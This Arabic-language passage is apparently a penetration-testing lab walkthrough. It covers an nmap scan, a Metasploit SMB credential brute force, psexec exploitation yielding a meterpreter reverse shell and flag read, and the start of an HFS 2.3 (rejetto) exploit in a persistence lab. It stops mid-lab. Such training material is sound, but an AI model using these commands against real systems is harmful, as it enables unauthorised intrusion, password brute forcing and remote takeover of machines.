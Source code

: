 نشوف الان مع بعض معطينا التارقت راح نفحصه كالمعتاد  
```bash
nmap -sV -sC 10.0.0.242  
```  

نشوف الان ان بورت 445 شغال طبعا راح نسوي بروت فورس على اليوزر والباسورد  

تقدر تستخدم اي اداة تبيها hydar , metasploit etc..  

حنا راح نسويها باستخدام الـ metasploit  
```bash
msfconsole  
use auxiliary/scanner/smb/smb_login  
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt  
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  
set RHOSTS 10.0.0.242  
set VERBOSE false  
exploit  
```  

نشوف انه عطانا اكثر من يوزر وباسورد الان بنستغله عن طريق موديول psexec  

```bash
use exploit/windows/smb/psexec  
set RHOSTS 10.0.0.242  
set SMBUser Administrator  
set SMBPass qwertyuiop  
exploit  
```  

نشوف انه فعلا عطانا الان الريفيرس شيل او بالاصح meterpreter session  

الان فقط مطلوب مننا نقرا الفلاق بهذي الطريقه  
```bash
shell  
cd /  
dir  
type flag.txt  
```  

طبعا الان معنا اعلى صلاحيات بالنظام بعد ما استغليناه عن طريق psexec  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الثالث الي هو  

Maintaining Access: Persistence Service 
---------------------------------------|  

طبعا في هذا اللاب راح نشوف اللاب مع بعض وهذا هو الـ Persistence عن طريق الـ Service  

طبعا زي العاده معطينا التارقت وراح نفحصه بالـ nmap  
```bash
nmap -sV -sC 10.0.25.204  
```  

طبعا نشوف ان بورت 80 مفتوح وشغال عليه HTTPFileServer 2.3 ونعرف انه مصاب راح نستغله مباشره  
```bash
msfconsole  
use exploit/windows/http/rejetto_hfs_exec  
set RHOSTS 10.0.25.204  
set LHOST 10.10.1.2  [Enter your IP machine]  
exploit
```  
